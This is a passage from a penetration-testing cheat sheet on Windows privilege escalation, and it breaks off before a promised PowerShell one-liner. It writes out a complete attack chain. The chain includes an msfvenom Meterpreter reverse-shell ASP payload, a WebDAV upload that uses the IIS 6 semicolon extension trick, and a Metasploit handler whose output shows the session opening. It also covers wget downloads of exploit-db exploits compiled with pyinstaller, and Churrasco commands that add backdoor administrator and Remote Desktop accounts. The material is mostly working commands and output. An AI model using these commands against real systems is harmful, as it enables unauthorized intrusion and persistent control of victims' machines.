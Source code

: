 -   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/
 
-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html
 
         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt
 
         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit
 
         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j
 
         curl http://$ip/aspshell3.asp;.txt
 
         [*] Started reverse TCP handler on 1.2.3.4:443
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700
 
-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.
 
         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py
 
-   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:
 
      https://www.exploit-db.com/exploits/6705/
   
      https://github.com/Re4son/Churrasco
     
         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"
 
         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"
 
-   Windows MS11-080 - http://www.exploit-db.com/exploits/18176/  
   
          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
   
-   Powershell Exploits - You may find that some Windows privledge escalation exploits are written in Powershell. You may not have an interactive shell that allows you to enter the powershell prompt.  Once the powershell script is uploaded to the server, here is a quick one liner to run a powershell command from a basic (cmd.exe) shell:
 